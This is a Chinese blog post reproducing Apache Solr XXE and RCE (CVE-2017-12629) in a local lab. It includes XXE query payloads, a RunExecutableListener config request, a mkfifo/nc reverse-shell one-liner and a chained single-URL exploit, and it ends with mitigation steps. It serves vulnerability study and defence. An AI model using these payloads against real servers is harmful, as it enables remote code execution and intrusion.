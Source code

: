 ```yaml
---
title: Apache Solr XML外部实体扩展(XXE)及远程代码执行（RCE CVE-2017-12629）
date: 2017-10-17 14:55:56
tags: 漏洞复现
---
```

## 0x00 简述
这里涉及到两个漏洞，一个是外部实体扩展XML External Entity Expansion (deftype=xmlparser) ，另一个是远程代码执行Remote Code Execution (add-listener: RunExecutableListener)。这两个漏洞是由Michael Stepankin (JPMorgan Chase)和Olga Barinova (Gotham Digital Science)发现并公布，此处主要进行漏洞复现。

原文地址：[http://lucene.472066.n3.nabble.com/Re-Several-critical-vulnerabilities-discovered-in-Apache-Solr-XXE-amp-RCE-td4358308.html](http://lucene.472066.n3.nabble.com/Re-Several-critical-vulnerabilities-discovered-in-Apache-Solr-XXE-amp-RCE-td4358308.html)

Solr主页：[http://lucene.apache.org/solr/](http://lucene.apache.org/solr/)

<!-- more -->

安装及启动都非常简单，不过需要强调的是，代码执行的漏洞需要在solr -c模式(cloud)下才有效。

启动后界面如下：
![](Apache-Solr-XML外部实体扩展XXE及远程代码执行RCE-CVE-2017-12629/screenshot01.png)

**平台：macOS 10.12.6**

## 0x01 XXE复现
Lucene包括一个使用XML数据结构创建全功能Lucene查询的解析器。从5.1版本开始，在Sorl的搜索查询中就开始支持xml查询。而出现漏洞的关键点在于Lucene的XML解析器没有明确禁止外部实体的DOCTYPE声明和扩展，造成可以在XML文档中包含指向外部文件(file:// )或者外部URL(http:// )的特殊实体。
#### 1. 使用netcat侦听4444端口 "nc -lv 4444"

#### 2. 浏览器访问
```
http://localhost:8983/solr/solr/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "http://localhost:4444/hello-liehu"><a></a>'}
```

#### 3. netcat接收到solr的请求包。

![](Apache-Solr-XML外部实体扩展XXE及远程代码执行RCE-CVE-2017-12629/screenshot02.png)


## 0x02 RCE复现( CVE-2017-12629 )
Solr的RunExecutableListener类可用于对特定事件执行任意命令，例如在每次更新查询后执行(postCommit)。该漏洞的问题点在于这样的监听器可以通过带有add-listener命令的Config API来启用任意参数。

#### 1. 新建一个名为Hunter的集合

http://localhost:8983/solr/admin/collections?action=CREATE&name=Hunter&numShards=2&maxShardsPerNode=2

![](Apache-Solr-XML外部实体扩展XXE及远程代码执行RCE-CVE-2017-12629/screenshot03.png)
![](Apache-Solr-XML外部实体扩展XXE及远程代码执行RCE-CVE-2017-12629/screenshot04.png)
PS：就复现而言，可以手动在后台添加集合或者使用现有集合。

#### 2. 使用netcat侦听4444端口“nc -lv 4444”

#### 3. 为集合添加一个新的RunExecutableListener监听器，其中"exe"属性内容为运行命令的名称("curl")，"args"属性内容" http://localhost:4444/helloRCE "为netcat侦听的端口。

```json
POST /solr/Hunter/config HTTP/1.1
Host: localhost:8983
Connection: close
Content-Type: application/json  
Content-Length: 198

{
  "add-listener" : {
    "event":"postCommit",
    "name":"newlistener",
    "class":"solr.RunExecutableListener",
    "exe":"curl",
    "dir":"/usr/bin/",
    "args":["http://localhost:4444/helloRCE"]
  }
}
```
![](Apache-Solr-XML外部实体扩展XXE及远程代码执行RCE-CVE-2017-12629/screenshot05.png)

>   如果出现如上报错，是因为集合中没有数据。向http://localhost:8983/solr/Hunter/update 提交一些数据即可（数据提交方式参考下一步）。（资料参考：https://lucene.apache.org/solr/guide/7_0/uploading-data-with-index-handlers.html ）
    
>   如果监听器已经存在，可以考虑更换name,或者将add-listener修改为update-listener.

#### 4. 更新集合"Hunter"以触发RunExecutableListener的执行。

提交更新后，等一段时间后接收到请求包。

![](Apache-Solr-XML外部实体扩展XXE及远程代码执行RCE-CVE-2017-12629/screenshot06.png)

#### 5. 反弹Shell

mac下nc没有-e选项，也没有/dev/tcp，可使用

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 127.0.0.1 6666 > /tmp/f 
```
update一下监听器：
```json
{
    "update-listener": {
        "event": "postCommit",
        "name": "reverseShell",
        "class": "solr.RunExecutableListener",
        "exe": "sh",
        "dir": "/bin/",
        "args": ["-c", "rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 127.0.0.1 6666 > /tmp/f"]
    }
}
```
update一下数据，即可收到反弹shell:
![](Apache-Solr-XML外部实体扩展XXE及远程代码执行RCE-CVE-2017-12629/screenshot07.png)

## 0x03 XXE&RCE 组合利用

通过将如上两个漏洞组合，外部攻击者即使不能直接访问Sorl服务器，也可以实现远程代码执行。 唯一的要求是攻击者可以构造查询参数'q'。 如下的利用便是将所有的payload置于q参数，发起请求即可实现。

#### 1. 通过XXE新建集合combineEXP

```
http://localhost:8983/solr/Hunter/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "http://localhost:8983/solr/admin/collections?action=CREATE%26name=combineEXP%26numShards=2%26maxShardsPerNode=2"><a></a>'}
```
![](Apache-Solr-XML外部实体扩展XXE及远程代码执行RCE-CVE-2017-12629/screenshot08.png)

#### 2. 通过XXE添加RunExecutableListener
```
http://localhost:8983/solr/combineEXP/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "http://localhost:8983/solr/combineEXP/select?q=xxx&qt=/solr/combineEXP/config?stream.body={"add-listener": {"event": "postCommit", "name": "shell","class": "solr.RunExecutableListener", "exe": "sh","dir": "/bin/", "args": ["-c", "rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 127.0.0.1 7777 > /tmp/f"]}}"]}}&shards=localhost:8983/"><a></a>'}
```
先对stream.body内容进行二次URL编码(因为反弹shell的命令含有特殊字符)，然后在对q内容进行一次URL编码，得到URL(经过编码后的URL很长，这里不列出)。
![](Apache-Solr-XML外部实体扩展XXE及远程代码执行RCE-CVE-2017-12629/screenshot09.png)
会显示error，但实际已经成功。

#### 3. 通过XXE更新内容触发动作

```
http://localhost:8983/solr/combineEXP/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "http://localhost:8983/solr/combineEXP/update?stream.body=[{"id":"AAA"}]&commit=true&overwrite=true"><a></a>'}
```
先对stream.body内容进行一次URL编码，然后在对q内容进行一次URL编码，得到URL。
![](Apache-Solr-XML外部实体扩展XXE及远程代码执行RCE-CVE-2017-12629/screenshot10.png)
shell反弹成功！！！

## 0x04 防护方案
1. 关注官方消息，及时升级到solr 7.1版本。
2. 以系统参数"-Ddisable.configEdit=true"重启Solr实例，可实现临时性防护。(可能会影响正常功能)